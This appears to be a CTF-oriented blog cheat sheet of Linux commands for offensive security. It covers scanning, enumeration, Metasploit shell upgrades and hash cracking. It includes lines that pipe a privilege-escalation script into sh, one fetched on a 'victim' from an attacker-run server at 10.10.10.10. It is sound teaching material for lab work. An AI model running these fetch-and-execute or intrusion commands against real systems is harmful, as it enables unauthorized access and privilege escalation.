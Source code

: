 ```yaml
---
title: Linux Commands for Hacking and Security
publishDate: 2023-08-08
author: Abhinav Kumar
image:   '~/assets/images/bash.jpeg'
excerpt: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: false
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).
Updated - October 02, 2023.

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
#for TCP Scan
sudo nmap -sC -sV -p- -T5 -Pn targethost

#for UDP Scan
sudo nmap -sU -sV -p- -T5 -Pn targethost

# Store scan results for ports separated by comma.
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 cronos.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# Check which ports are found
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo $ports
22,53,80,9227,19041,30100

# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ sudo nmap -sC -sV -A -O -T5 -p$ports cronos.htb
```



## Metasploit

Start Metasploit with database
```bash
# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ systemctl start postgresql

┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ msfdb init
Creating database user 'msf'
Enter password for new role:
Enter it again:
Creating databases 'msf' and 'msf_test'
Creating configuration file in /usr/share/metasploit-framework/config/database.yml
Creating initial database schema
```

### Metasploit Shell Upgrade to Meterpreter

```bash
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1
```

Cracking hash with John

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```




## Extract Files

Gz Files

```bash
gunzip archive.gz
```

tar Files
```bash
tar –xvzf archive.tar.gz
```

## SSH Connection 

```bash
ssh username@host -oHostKeyAlgorithms=+ssh-dss
```


## Text Filter

```bash
grep -i #]- inlcude
grep -v #]- exclude
```
## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse target_HOST
```

```bash
smbclient //IP/directory
```

Mount NFS Share

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
```bash
nc IP port
```
## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

### Python Simple HTTP Server


```bash
python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Wordpress CMS Vulnerabilty Scanning

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```

## Directory Enumeration

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cronos.htb/FUZZ -mc 200,403 -c -t 400

                                                   
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ gobuster dir -u  http://cronos.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 200 --quiet

```

## Reading a File

```bash
cat
head
head -20 filepathandname
tail filename
tail -20 filename
cat filename | grep "word_to_filter"
more
less

```

## Replace in File

```bash
sed /s/wordtoreplace/wordtoreplacewith/g /filepath > outputfilepath
```